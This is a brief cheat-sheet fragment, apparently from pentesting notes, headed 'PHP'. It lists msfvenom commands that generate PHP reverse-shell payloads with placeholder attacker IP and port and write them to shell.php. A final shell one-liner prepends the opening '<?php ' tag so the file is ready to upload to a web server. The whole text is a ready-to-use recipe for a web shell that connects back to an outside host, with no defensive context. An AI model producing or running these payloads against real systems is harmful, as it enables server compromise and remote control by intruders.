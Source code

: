 # PHP

`$ msfvenom -p php/reverse_php lhost=<IP> lport=<PORT> -f raw -o shell.php`

`$ msfvenom -p php/reverse_perl lhost=<IP> lport=<PORT> -f raw -o shell.php`

`$ cat shell.php | xclip -selection clipboard && echo '<?php ' | tr -d '\n'> shell.php && xclip -selection clipboard -o >> shell.php`